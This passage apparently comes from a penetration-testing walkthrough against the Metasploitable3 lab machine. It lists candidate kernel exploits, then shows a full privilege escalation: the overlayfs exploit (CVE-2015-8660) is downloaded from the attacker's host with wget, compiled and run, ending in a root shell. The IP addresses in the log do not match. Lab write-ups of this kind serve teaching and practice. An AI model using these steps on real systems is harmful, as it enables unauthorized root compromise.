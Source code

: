 ```
      Source: http://www.exploit-db.com/exploits/45697
  [3] overlayfs
      CVE-2015-8660
      Source: http://www.exploit-db.com/exploits/39230
  [4] pp_key
      CVE-2016-0728
      Source: http://www.exploit-db.com/exploits/39277
  [5] timeoutpwn
      CVE-2014-0038
      Source: http://www.exploit-db.com/exploits/31346

boba_fett@metasploitable3-ub1404:~$ 
```

##### The user boba_fett belongs the docker group and this can be leaveraged to obtain a root shell if the docker settings aren't properly configured

```
[!] ctn020 Is the user a member of the 'docker' group?..................... yes!
---
docker
---
```

### Gaining root using the kernel exploit overlays(CVE-2015-8660)

We can go ahead and download the overlayfs exploit from [here](http://www.exploit-db.com/exploits/39230), send it over to the victim machine and then use gcc to compile the script to an executable and execute it so as to gain the root shell:

```
boba_fett@metasploitable3-ub1404:~$ wget http://192.168.4.129/overlay.c
wget http://192.168.4.129/overlay.c
--2019-05-03 15:46:08--  http://192.168.4.129/overlay.c
Connecting to 192.168.72.131:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/plain]
Saving to: 'overlay.c'

100%[======================================>] 5,119       --.-K/s   in 0s      

2019-05-03 15:46:09 (93.7 MB/s) - 'overlay.c' saved [5119/5119]

boba_fett@metasploitable3-ub1404:~$ gcc overlay.c -o ofs
gcc overlay.c -o ofs

boba_fett@metasploitable3-ub1404:~$ chmod +x ofs
chmod +x ofs
boba_fett@metasploitable3-ub1404:~$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),100(users),999(docker)
# 
```
